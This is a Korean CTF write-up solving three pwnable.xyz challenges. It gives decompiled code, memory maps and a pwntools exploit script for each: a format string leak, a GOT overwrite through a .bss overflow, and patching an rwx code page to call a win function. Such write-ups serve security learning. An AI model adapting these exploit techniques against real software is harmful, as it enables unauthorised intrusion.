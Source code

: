 # pwnable.xyz
## Grownup
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *src; // ST08_8
  __int64 buf; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  setup();
  buf = 0LL;
  v6 = 0LL;
  printf("Are you 18 years or older? [y/N]: ", argv);
  *((_BYTE *)&buf + (signed int)((unsigned __int64)read(0, &buf, 0x10uLL) - 1)) = 0;
  if ( (_BYTE)buf != 'y' && (_BYTE)buf != 'Y' )
    return 0;
  src = (char *)malloc(0x84uLL);
  printf("Name: ", &buf);
  read(0, src, 0x80uLL);
  strcpy(usr, src);
  printf("Welcome ", src);
  printf(qword_601160, usr);
  return 0;
}
~~~
ida를 통해 본 코드는 위와 같다. 첫입력에서 y나 Y를 입력하지 않을 경우 프로그램이 멈춘다.
read를 한 것을 strcpy로 옮기는 것이 수상해서 검색해봤다. read는 null을 끝에 붙이지 않는데 strcpy는 null을 끝에 붙여준다.
좀 더 알아보니 포맷스트링 공격이 가능하다고 한다. 위 코드 경우 끝에 0x81에 null 값이 들어가서 포맷스트링 공격이 가능한 것이다.
data 부분을 조금 더 찾았더니 0x601080 주소에 flag가 있는 것을 확인했다. 내가 이해한 것은 0x80만큼 name부분에 집어넣어 포맷스트링을 
손상시키는 것이었는데 잘 안 되었다. 알고보니 처음에 y를 입력할 때 flag의 주소값을 입력해야 하는 거였다.
~~~python
from pwn import *
r=remote("svc.pwnable.xyz",30004)
flag=0x601080
pay=''
pay+='Y'+'A'*7+p32(flag)
r.recvuntil("[y/N]: ")
r.sendline(pay)
formatstr='%p%p%p%p%p%p%p%p%s%p%p%p'
pay=''
pay+='A'*60+formatstr+'A'*(0x80-len(formatstr)-32)
r.recvuntil("Name: ")
r.sendline(pay)
print r.recvall()
~~~
writeup을 참고하여 짜게 된 exploitcode이다. 우선 18살 이상이냐고 물을 때 y와 dummy(7) 그리고 flag 주소를 little endian으로 넣어줬다.
다음 formatstr을 통해 몇번째에 flag가 나타나는지 확인하고 그 부분을 %s로 바꾸어 flag를 확인했다.
## note
~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi
  int v4; // eax

  setup(*(_QWORD *)&argc, argv, envp);
  v3 = "Note taking 101.";
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu(v3);
        v4 = read_int32();
        if ( v4 != 1 )
          break;
        edit_note();
      }
      if ( v4 != 2 )
        break;
      edit_desc();
    }
    if ( !v4 )
      break;
    v3 = "Invalid";
    puts("Invalid");
  }
  return 0;
}
~~~
코드는 위와 같았고 ida 옆에 win이라는 함수가 있길래 들어갔더니
~~~c
int win()
{
  return system("cat flag");
}
~~~
system 함수로 flag 값을 보여주는 것을 알 수 있었다. 이 함수의 주소를 사용하면 될 듯하다. buf에 값을 주는
함수를 찾았더니 edit_note와 edit_desc가 있었다. 이때 edit_note에서 정보를 받는 s의 32비트 밑에 buf가 있다.
~~~
.bss:0000000000601480 ; char s[32]
.bss:0000000000601480 s               db 20h dup(?)           ; DATA XREF: edit_note+67↑o
.bss:00000000006014A0 ; void *buf
.bss:00000000006014A0 buf             dq ?                    ; DATA XREF: edit_desc+4↑r
.bss:00000000006014A0                                         ; edit_desc+1A↑w ...
.bss:00000000006014A0 _bss            ends
~~~
그러니까 read 함수의 got를 구한 뒤 edit_note에 32비트의 dummy와 함께 got를 넣어 buf를 바꾸어놓은 후
다시 edit_note를 통해 win함수의 주소를 넣어 flag를 확인하면 된다.
~~~
.got.plt:0000000000601248 off_601248      dq offset read          ; DATA XREF: _read↑r
~~~
read()의 주소이다. 그리고 win함수의 주소는 0x40093c이다.
아래는 exploit code이다.
~~~python
from pwn import *

r = remote("svc.pwnable.xyz", 30016)

r.sendafter("> ","1")

r.sendafter("len? ","100")

r.sendafter("note: ","A"*32 + p64(0x601248))

r.sendafter("> ","2")

r.sendafter("desc: ",p64(0x40093c))

r.sendafter("> ","2")

print r.recvall()
~~~
## xor
~~~
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // [rsp+Ch] [rbp-24h]
  __int64 v4; // [rsp+10h] [rbp-20h]
  __int64 v5; // [rsp+18h] [rbp-18h]
  __int64 v6; // [rsp+20h] [rbp-10h]
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  puts("The Poopolator");
  setup("The Poopolator", argv);
  while ( 1 )
  {
    v6 = 0LL;
    printf(format);
    v3 = _isoc99_scanf("%ld %ld %ld", &v4, &v5, &v6);
    if ( !v4 || !v5 || !v6 || v6 > 9 || v3 != 3 )
      break;
    result[v6] = v5 ^ v4;
    printf("Result: %ld\n", result[v6]);
  }
  exit(1);
}
~~~
ida로 main을 열었을 때 코드이고 여기도 역시 win()함수를 통해 flag를 제공한다. 따라서 이 주소를 사용하는것을 알 수 있다. 그리고 checksec을 해줬더니 full-relro 가 켜져 있어서 앞의 문제와 같이 got를 사용한
공격은 하지 못한다. 
~~~
pwndbg> cat /proc/52263/maps
55df929f8000-55df929f9000 rwxp 00000000 08:01 1572913                    /home/neururaon/Documents/challenge2
55df92bf9000-55df92bfa000 r--p 00001000 08:01 1572913                    /home/neururaon/Documents/challenge2
55df92bfa000-55df92bfb000 rw-p 00002000 08:01 1572913                    /home/neururaon/Documents/challenge2
55df935f6000-55df93617000 rw-p 00000000 00:00 0                          [heap]
7f38436ce000-7f38438b5000 r-xp 00000000 08:01 1184894                    /lib/x86_64-linux-gnu/libc-2.27.so
7f38438b5000-7f3843ab5000 ---p 001e7000 08:01 1184894                    /lib/x86_64-linux-gnu/libc-2.27.so
7f3843ab5000-7f3843ab9000 r--p 001e7000 08:01 1184894                    /lib/x86_64-linux-gnu/libc-2.27.so
7f3843ab9000-7f3843abb000 rw-p 001eb000 08:01 1184894                    /lib/x86_64-linux-gnu/libc-2.27.so
7f3843abb000-7f3843abf000 rw-p 00000000 00:00 0 
7f3843abf000-7f3843ae6000 r-xp 00000000 08:01 1184866                    /lib/x86_64-linux-gnu/ld-2.27.so
7f3843ccf000-7f3843cd1000 rw-p 00000000 00:00 0 
7f3843ce6000-7f3843ce7000 r--p 00027000 08:01 1184866                    /lib/x86_64-linux-gnu/ld-2.27.so
7f3843ce7000-7f3843ce8000 rw-p 00028000 08:01 1184866                    /lib/x86_64-linux-gnu/ld-2.27.so
7f3843ce8000-7f3843ce9000 rw-p 00000000 00:00 0 
7fffb1fb8000-7fffb1fd9000 rw-p 00000000 00:00 0                          [stack]
7fffb1fea000-7fffb1fed000 r--p 00000000 00:00 0                          [vvar]
7fffb1fed000-7fffb1fee000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
~~~
process map을 통해 55df929f8000-55df929f9000에 rwxp 권한이 있다는 것을 알 수 있었다. 따라서 기계어를 써서
저 부분을 call win으로 바꾸어 준다. win의 주소는 0xA21이다. v5^v4의 결과값이 call win을 little endian한 값이
되도록 해야 한다. 자력으로 해보려 했으나 잘 되지 않아 writeup을 참고한 결과 0xac8 즉 call exit의 주소부부분을
call 0xA21로 바꾸어 주면 풀린다. 참고하여 짠 exploit code는 아래와 같다.
~~~python
from pwn import *

#p = process('./xor')
p = remote('svc.pwnable.xyz', 30029)
e = ELF('./challenge2')

exit = 0xac8

e.asm(exit, "call 0xa21") 
result = e.read(exit, 5)
result = int(result[::-1].encode("Hex"), 16) 

payload = ''
payload += "1 "
payload += str(result ^ 1) + ' '
payload += str((exit - 0x202200) / 8)

p.sendlineafter('  ', payload)
p.sendlineafter('  ', 'A') 
p.interactive()
~~~
